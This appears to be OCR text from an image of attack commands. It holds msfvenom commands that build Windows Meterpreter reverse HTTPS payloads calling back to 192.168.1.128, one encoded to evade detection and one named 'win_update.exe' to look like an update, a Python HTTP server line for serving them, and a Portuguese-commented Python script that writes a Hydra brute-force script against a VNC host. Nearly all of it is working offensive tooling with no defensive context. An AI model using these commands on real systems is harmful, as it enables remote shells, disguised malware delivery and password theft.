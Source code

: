 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f exe -o ~/win_update.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

python3 -m http.server 8080

# Código foi reiniciado, recriando o script Python para brute force automatizado VNC

import subprocess

ip_alvo = "192.168.1.84"  # Altere para o IP alvo
wordlist_path = "/mnt/data/wordlist_atibaia.txt"

script_content = f"""
import subprocess

ip_alvo = "{ip_alvo}"
wordlist_path = "{wordlist_path}"

print(f"Iniciando brute force VNC contra {{ip_alvo}}...\\n")

comando = [
    "hydra",
    "-P", wordlist_path,
    "-t", "4",
    "-f",
    "-V",
    ip_alvo,
    "vnc"
]

resultado = subprocess.run(comando, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)

if "login:" in resultado.stdout or "host:" in resultado.stdout:
    print("\\n====> POSSÍVEL SENHA ENCONTRADA! Resultado:")
    print(resultado.stdout)
else:
    print("Nenhuma senha encontrada ou tentativa falhou.")

print("Brute force VNC concluído.")
"""

with open("/mnt/data/bruteforce_vnc.py", "w") as f:
    f.write(script_content)

print("Script Python para brute force VNC criado como 'bruteforce_vnc.py'.")



